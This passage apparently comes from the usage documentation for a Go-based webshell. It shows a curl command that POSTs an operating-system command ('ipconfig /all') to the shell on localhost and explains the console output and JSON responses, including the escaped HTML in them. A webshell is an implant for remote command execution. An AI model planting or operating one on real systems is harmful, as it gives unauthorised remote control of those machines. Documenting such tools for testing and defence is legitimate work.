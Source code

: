 ```
curl.exe -X POST -F 'c=ipconfig /all' http://localhost:8080
```

At this time the webshell's shell doesn't have awareness of the `PATH`
and may require absolute paths to reach some executables.

#### Webshell JSON Responses 

The webshell will send some output to its console, and a JSON-formatted
response to whatever sent the POST request:

Console output for the command `ipconfig /all`:
```
ipconfig /all
exec: ipconfig /all
```

Raw example response:
```
{"Command":"ipconfig /all","Error":"","ErrorString":"","Result":"\r\u003cbr /\u003eWindows IP Configuration\r\u003cbr /\u003e\r\u003cbr /\u003e   Host Name . . . . . . . . . . . . : MSEDGEWIN10\r\u003cbr /\u003e   Primary Dns Suffix  . . . . . . . : \r\u003cbr /\u003e   Node Type . . . . . . . . . . . . : Hybrid\r\u003cbr /\u003e   IP Routing Enabled. . . . . . . . : No\r\u003cbr /\u003e   WINS Proxy Enabled. . . . . . . . : No\r\u003cbr /\u003e"}
```

Response with formatting for readability:
```
{
  "Command":"ipconfig /all",
  "Error":"",
  "ErrorString":"",
  "Result":"\r\u003cbr /\u003eWindows IP Configuration\r\u003cbr /\u003e\r\u003cbr /\u003e   Host Name . . . . . . . . . . . . : MSEDGEWIN10\r\u003cbr /\u003e   Primary Dns Suffix  . . . . . . . : \r\u003cbr /\u003e   Node Type . . . . . . . . . . . . : Hybrid\r\u003cbr /\u003e   IP Routing Enabled. . . . . . . . : No\r\u003cbr /\u003e   WINS Proxy Enabled. . . . . . . . : No\r\u003cbr /\u003e"
}
```
* "Command" is the original command.
* "Error" is an internal error code returned by Golang after running the command, if there was an error.
* "ErrorString" is the stderr output of the command, if any.

The output contains Unicode-escaped HTML that any application handling the webshell's responses may need to post-process.

* `\r\u003cbr /\u003e` is a Unicode-escaped `\r<br />`:
  * A carriage return `\r` followed by an HTML line break `<br />`.
  * `\u003c` is `<` and `\u003e` is `>`.

For itself, the wrapper un-escapes these back into a `<br />` when it displays the responses.

### Customizing the Executables

The behavior of the executable can be further tailored by modifying the variables used by the build scripts and then rebuilding the project from source.

Refer to [Customizing the Executables](BUILD_windows_webshell.md#Customizing-The-Executables) in the building document for more details.
